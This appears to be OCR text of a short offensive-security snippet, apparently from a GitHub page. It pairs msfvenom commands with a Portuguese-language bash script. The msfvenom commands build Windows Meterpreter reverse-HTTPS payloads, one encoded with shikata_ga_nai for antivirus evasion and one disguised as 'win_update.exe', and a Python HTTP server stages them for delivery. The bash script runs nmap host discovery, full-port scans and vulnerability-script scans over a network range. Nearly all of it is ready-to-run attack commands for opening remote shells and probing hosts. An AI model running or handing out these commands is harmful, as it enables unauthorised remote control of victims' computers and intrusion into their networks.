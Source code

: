 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

#!/bin/bash

echo "Digite o IP ou faixa de rede (exemplo: 192.168.1.0/24): "
read REDE

echo "Procurando hosts ativos..."
nmap -sn $REDE -oN hosts_ativos.txt
cat hosts_ativos.txt | grep "Nmap scan report for" | awk '{print $5}' > ips_encontrados.txt

for ip in $(cat ips_encontrados.txt)
do
    echo "Escaneando IP: $ip"
    nmap -A -Pn -p- $ip -oN scan_$ip.txt
    echo "Verificando vulnerabilidades no IP: $ip"
    nmap --script vuln -Pn -p- $ip -oN vuln_$ip.txt
done

echo "Scan completo. Resultados salvos nos arquivos scan_<ip>.txt e vuln_<ip>.txt"

